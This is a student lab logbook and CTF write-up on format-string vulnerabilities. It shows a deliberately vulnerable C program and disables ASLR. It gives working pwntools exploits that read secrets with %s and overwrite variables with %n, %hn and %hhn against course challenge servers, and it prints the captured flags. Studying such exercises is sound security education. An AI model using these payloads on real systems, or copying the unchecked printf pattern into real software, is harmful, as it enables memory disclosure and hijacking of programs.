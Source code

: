 # Format sting

### Preparation
* Shutting down countermeasures
we'll turn off the address randomization in order to make it easier to guess the heap and stack address.
```
$ sudo sysctl -w kernel.randomize_va_space=0
```

### Vulnerable file

```C
unsigned int target = 0x11223344;
char *secret = "A secret message\n";
void myprintf(char *msg) {
    // This line has a format-string vulnerability
    printf(msg);
}
int main(int argc, char **argv) {
    char buf[1500];
    int length = fread(buf, sizeof(char), 1500, stdin);
    printf("Input size: %d\n", length);
    myprintf(buf);
    return 1;
}
```
This file is clearly unsafe since the input from the user read in int main() is passed to a function which then calls printf, without having been checked.

### Environment Setup
* To simplify the attack, we'll turn off user address space randomization **to a function which then calls printf**.
* Our program will be compiled into both 64-bit and 32-bit (-m32 option).
* The program will also need to be compiled with the **-z execstack** option, in order, to make the stack executable.


## Task 1

Firstly we send a benign message to the server running in the docker container on 10.9.0.5
with the command:
```
$ echo hello | nc 10.9.0.5 9090
```
result:
![Alt text](images\logbook7\task1-benign.png)

We then were asked to crash the program which we achieved using the following input:

```
AAAA%n
```
This writes 4 to the address 0x41414141 which isn't a valid memory address, whcich ends up crashing the program

![Alt text](images\logbook7\task1-crash.png)


## Task 2 a

We concluded we need 64 %x to get the server to start printing the beggining of the user input, we checked this by sending AAAA as the 4 first bytes in our input followed by 64 %x.

![Alt text](images\logbook7\task2-a.png)

## Task 2 b

To print the string of the secret value given its address = 0x080b4008, we need to use the %s specifier, however we need to specify the address we want the %s to read from. 
To do so, we wrote the address of the variable in little endian followed by %64$s which reads a string in the address present in the 64th position in stack (our input)

``` py
content = (0x080b4008).to_bytes(4,byteorder='little') + b"%64$s"
```

![Alt text](images\logbook7\task2-b.png)


## Task 3 a

To change the value of a variable using a format string vulnerabilities we need to use the %n which writes the number of characters written so far in the specified address. We used the same technique we used in task 2b

```py
content = (0x080e5068).to_bytes(4,byteorder='little') + b"%64$n"
```

![Alt text](images\logbook7\task3-a.png)

## Task 3 b

This task is the same as the task 3b, however we need to write 0x5000 to the address of the target variable, which means we need to write 20480 characters before calling %n. We can achieve this using %20476x which will write 20476 charcters in the user input.
These amount of characters is enough because we've already written 4 characters when we wrote the address we want to write to.

```py
content = (0x080e5068).to_bytes(4,byteorder='little') +b"%20476x" + b"%64$n"
```

![Alt text](images\logbook7\task3-b.png)





# CTF 7 Format Strings

## Desafio 1

In  the port 4004 there was a C program running, with a format string vulnerability present in the line 27:
```C
printf(buffer)```

The program had the following protections:

-> NX: Cannot execute in the Stack
-> Canarys: Cannot overflow buffers

```
checksec program
  Arch:     i386-32-little
  RELRO:    Partial RELRO
  Stack:    Canary found
  NX:       NX enabled
  PIE:      No PIE (0x8048000) ```


Apart from this we also foundout the Binary position is absolute (no PIE) and the binary is 32-bit.


The vulnerable file loads the global variable flag with the contents of flag.txt at the beggining of program. Therefore to find the flag all we need to do is print the content of flag.

First we used gdb to get the flag variable address.


![Alt text](format_strings1_ctf_gdb.png)

After getting the address 0x804c060, the exploit consists in getting the string value in that address, which can be achieved with the format specifier %s.


```py
p = remote("ctf-fsi.fe.up.pt", 4004)
p.recvuntil(b"got:")
p.sendline(p32(0x804c060) + b"%s")
p.interactive()
```

![Alt text](format_strings1_ctf_result.png)

```
flag{669369e1c6689eb5de7c38c2feef0c95}
```

## Desafio 2

For this challenge, the checkseck result is the same as the one for challenge 1, however this time the flag is not loaded into memory. Instead, if the key value is 0xBEEF a shell will be launched, which then can be used to read the contents of the flag.txt file in the same directory.

We start by using gdb to get the address of the key global variable.

![Alt text](format_strings2_ctf_gdb.png)

0x804b324

Then we need to write to this address using the %n format specifier.
This specifier writes the number of bytes written so far into the next address in the stack.
Therefore we calculated the value in decimal we need to write besides the 4 bytes we had already written in the address:
```
0xBEEF - 4 = 
 48879 - 4 = 48875
```
  
Then we just needed to put everything together in the exploit.

```py
r = remote('ctf-fsi.fe.up.pt', 4005)
r.recvuntil(b"here...")
r.sendline(p32(0x804b324) +b"%1$.48875x" + b"%n")
r.interactive()
```
![Alt text](format_strings2_ctf_result.png)

```
flag{aade366f8dc239bab6f89db1f010b512}
```



## Desafio 3

Challenge 3's source code was identical to the source code in challenge number 2. However this time the address of the key global variable was 0x804b320.

![Alt text](format_strings3_ctf_gdb.png)

This is doesn't allow to use the same approach we used in challenge 2 as \x20 is the ascii representation of the space character which messes with the address we want to write to.

Therefore, we tried to write 0xBEEF00 to the address immediately before: 0x804b31F.

However the decimal representation of 0xBEEF00 is 12513024, which would require us to write that amount of characters in the input, and consequently get a connection timeout.

In order to go around this obstacle we decided to split the writing of the variable into 2.

0x804b321 -> 0xBE = 190
0x804b31F -> 0xEF00 = 61184

This approach reduces the amount of characters we need to write drastically while getting the same output.

This led to the exploit:

```py
r = remote('ctf-fsi.fe.up.pt', 4008)
r.recvuntil(b"here...")
r.sendline(p32(0x804b321) + p32(0x804b31F) + b"%182x" + b"%1$hhn" + b"%60994x" + b"%2$hn")
r.interactive()
```

![Alt text](format_strings3_ctf_result.png)

```
flag{8e9f922b23b061c32d1b2802bd363057}
```





